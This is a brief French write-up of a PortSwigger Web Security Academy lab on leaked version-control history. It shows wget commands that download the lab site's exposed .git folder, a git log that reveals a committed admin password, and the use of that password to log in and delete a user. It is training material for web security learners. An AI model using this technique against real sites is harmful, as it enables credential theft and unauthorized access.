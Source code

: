 # Lab

https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history

## Payload

On sait que ca concerne git, donc j'essaie de voir si le dossier `.git` est accessible : `https://0a8400e204564fdb8087e47b001b00e1.web-security-academy.net/.git`

Sur un linux :

```
wget -r https://0a8400e204564fdb8087e47b001b00e1.web-security-academy.net/.git
cd 0a8400e204564fdb8087e47b001b00e1.web-security-academy.net/.git
git log -p
...
-ADMIN_PASSWORD=lqdc54tsybqf7k8dlnje
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
...
```

On se connecte et on supprie l'utilisateur `carlos` pour valider le lab.
